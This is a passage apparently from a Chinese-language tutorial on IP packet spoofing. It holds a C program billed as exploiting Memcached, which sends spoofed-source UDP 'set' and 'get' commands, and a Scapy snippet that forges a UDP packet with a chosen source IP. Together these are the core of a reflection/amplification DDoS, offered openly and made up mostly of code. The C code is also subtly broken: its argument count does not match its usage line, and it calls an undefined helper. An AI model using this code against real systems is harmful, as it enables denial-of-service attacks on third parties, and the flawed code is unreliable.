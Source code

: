 ```cpp
```

如果要利用Memecached漏洞：

```cpp

int main(int argc, const char *argv[])
{
    if (argc != 5)
    {
        printf("usage:%s src_ip src_port dst_ip dst_port data\n", argv[0]);
        exit(1);
    }
    char setBuff[65535]="set AAAA 0 1000";
    /* 发送ip_udp报文 */
    ip_udp_send(argv[1], atoi(argv[2]), argv[3], atoi(argv[4]), setBuff);
    
    char getBuff[65535]="get AAAA";
    ip_udp_send(argv[1], atoi(argv[2]), argv[3], atoi(argv[4]), getBuff);

    return 0;
}
```

## 0x05 其他方式

Python Scapy 伪造网络数据包

```

>>> data = "Hello Scapy"
>>> pkt = IP(src='172.16.2.135', dst='172.16.2.91')/UDP(sport=12345, dport=5555)/data
>>> send(pkt, inter=1, count=1)
```





